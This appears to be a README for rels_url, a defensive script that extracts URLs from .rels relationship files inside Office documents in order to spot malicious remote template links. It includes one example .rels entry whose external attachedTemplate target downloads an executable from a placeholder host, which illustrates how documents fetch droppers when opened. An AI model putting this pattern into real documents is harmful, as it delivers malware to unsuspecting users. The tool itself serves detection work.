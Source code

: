 # rels_url
Office 2007+ Relational links URL extractor  

rels_url is a script that parses post 2007 or newer Micsocoft Office documents (e.g. docx, xlsx, pptx), to reveal URLs located in .rels files.  

## What is a RELS file? 
Files that contain the .rels file extension are relationship files. These files contain information about how the parts of different Microsoft Office documents fit together. This information is also referred to as relationship parts.

RELS files serve as markers for the documents that they pertain to. They allow the various Microsoft Office applications to utilize the information in one file so that it can be used in another file.

The RELS file format is only compatible with the more recent versions of the Microsoft Office applications which support Open Office XML documents. The RELS files are saved in the directory of the Open Office XML document.

## How threat actors use .rels files for malicious purposes  
Threat actors can use the RELS file to access URLs and download a dropper file. This tactic is very sneaky since the .rels files are read when a document is opened and before the user can interact with the document. The user is not prompted to allow the URL to be accessed.  

## Example of a .rels file  
\<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">\<Relationship  Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"  Target="https://sample.com/sample1/sample2/file.exe" TargetMode="External"/>\</Relationships>

## To Use:  
rels_url.py  file.docx

*The output will list the folder and file the URL is located in:*  

## Sample Output  
 C:\Users\cyb3rw01f>rels_url.py D:\rels_docx

_rels/.rels

word/_rels/document.xml.rels

word/_rels/settings.xml.rels  
"https://sample.com/sample1/sample2/file.exe"

customXml/_rels/item1.xml.rels

customXml/_rels/item2.xml.rels

customXml/_rels/item3.xml.rels

customXml/_rels/item4.xml.rels
